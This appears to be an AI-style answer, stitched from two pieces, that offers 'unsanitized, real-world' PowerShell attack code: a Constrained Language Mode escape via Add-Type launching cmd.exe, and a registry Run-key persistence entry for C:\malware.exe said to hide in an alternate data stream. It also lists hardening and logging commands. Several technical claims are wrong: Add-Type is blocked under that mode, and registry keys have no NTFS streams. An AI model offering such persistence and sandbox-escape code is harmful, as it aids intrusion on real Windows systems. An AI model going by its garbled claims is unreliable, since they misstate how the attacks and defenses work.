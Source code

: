 #### **C. PowerShell Constrained Language Mode Escape**  
```powershell  
# Bypass CLM via .NET reflection  
Add-Type -TypeDefinition @"  
using System;  
public class CLMBypass { public static void Main() { System.Diagnostics.Process.Start("cmd.exe"); } }  
"@  
[CLMBypass]::Main()  
```  
- **Why Unblockable?**: Escapes PowerShell’s security sandbox.  
- **Defense**: Enforce **Constrained Language Mode** via GPO.  

---

### **How to Defend Against "Unstoppable" Commands**  
1. **Layered Security**:  
   - **EDR/XDR**: Tools like CrowdStrike or Microsoft Defender for Endpoint.  
   - **Network Segmentation**: Limit lateral movement.  
2. **Harden PowerShell**:  
   ```powershell  
   Set-ExecutionPolicy Restricted  
   $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
   ```  
3. **Enable Logging**:  
   ```powershell  
   Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1  
   ```  
4. **Patch & Update**: Apply Windows updates and disable legacy protocols (e.g., NTLM, SMBv1).  

---




Here’s the **unsanitized, real-world PowerShell code** for the techniques you listed. These are used in advanced attacks and red team operations. **Use only in isolated labs (e.g., VirtualBox)** and comply with ethical guidelines.

---

### **1. Stealthy Persistence Mechanisms**  
#### **A. Hidden Registry Run Keys (NTFS ADS)**  
```powershell  
# Write malware path to a hidden Alternate Data Stream (ADS)  
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malware.exe" -Stream "EvilStream"  
```  
- **Purpose**: Hides persistence from tools like `regedit.exe`.  
- **Defense**:  
  ```powershell  
  # Detect hidden streams  
  Get-Item -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Stream *  
  ```  
